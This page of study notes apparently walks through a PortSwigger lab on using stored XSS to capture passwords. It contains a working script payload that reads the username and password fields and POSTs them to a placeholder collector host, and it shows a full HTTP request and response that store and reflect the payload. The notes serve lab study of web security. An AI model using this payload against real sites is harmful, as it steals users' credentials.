

## Exploiting Stored XSS

### Step-by-Step Exploitation

To exploit the stored XSS vulnerability in the lab, follow these steps:

1. **Identify the Injection Point**: Determine where the application accepts user input and where this input is displayed.
2. **Craft the Payload**: Create a malicious script that will be executed when the victim views the comment.
3. **Inject the Payload**: Post the comment with the malicious script.
4. **Trigger the Payload**: Ensure the victim views the comment, causing their browser to execute the script.
5. **Capture the Data**: Use a method to capture the stolen data, such as a remote server or Burp Collaborator.

### Crafting the Payload

For this lab, we need to craft a payload that captures the victim's username and password. Here is an example payload:

```html
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://burpcollaborator.example.com/', true);
    xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    xhr.send('username=' + document.getElementById('username').value + '&password=' + document.getElementById('password').value);
</script>
```

This script sends an HTTP POST request to the Burp Collaborator server with the victim's username and password.

### Injecting the Payload

Post the comment with the crafted payload. Ensure that the payload is correctly formatted and that the application does not sanitize or escape the input.

### Triggering the Payload

Once the comment is posted, ensure that the victim views the comment. This can be done by having the victim navigate to the page containing the comment.

### Capturing the Data

Use Burp Collaborator to capture the stolen data. Burp Collaborator is a service provided by Burp Suite that allows you to receive data from the victim's browser.

### Full HTTP Request and Response

Here is the full HTTP request and response for posting the comment:

#### HTTP Request

```http
POST /comments HTTP/1.1
Host: vulnerable-website.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 123

comment=<script>var xhr=new XMLHttpRequest();xhr.open('POST','http://burpcollaborator.example.com/',true);xhr.setRequestHeader('Content-Type','application/x-www-form-urlencoded');xhr.send('username='+document.getElementById('username').value+'&password='+document.getElementById('password').value);</script>
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Date: Mon, 01 Aug 2022 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 1234

<!DOCTYPE html>
<html>
<head>
    <title>Vulnerable Website</title>
</head>
<body>
    <h1>Comments</h1>
    <div id="comments">
        <div class="comment">
            <p><script>var xhr=new XMLHttpRequest();xhr.open('POST','http://burpcollaborator.example.com/',true);xhr.setRequestHeader('Content-Type','application/x-www-form-urlencoded');xhr.send('username='+document.getElementById('username').value+'&password='+document.getElementById('password').value);</script></p>
        </div>
    </div>
</body>
</html>
```

### Sequence Diagram

A sequence diagram can help visualize the interaction between the attacker, the web application, and the victim:



---
<!-- nav -->
[[Web Security (PortSwigger)/03-Cross-Site Scripting (XSS)/16-Lab 15 Exploiting cross site scripting to capture passwords/01-Introduction to Cross-Site Scripting (XSS)|Introduction to Cross-Site Scripting (XSS)]] | [[Web Security (PortSwigger)/03-Cross-Site Scripting (XSS)/16-Lab 15 Exploiting cross site scripting to capture passwords/00-Overview|Overview]] | [[Web Security (PortSwigger)/03-Cross-Site Scripting (XSS)/16-Lab 15 Exploiting cross site scripting to capture passwords/03-How to Prevent  Defend Against XSS|How to Prevent  Defend Against XSS]]
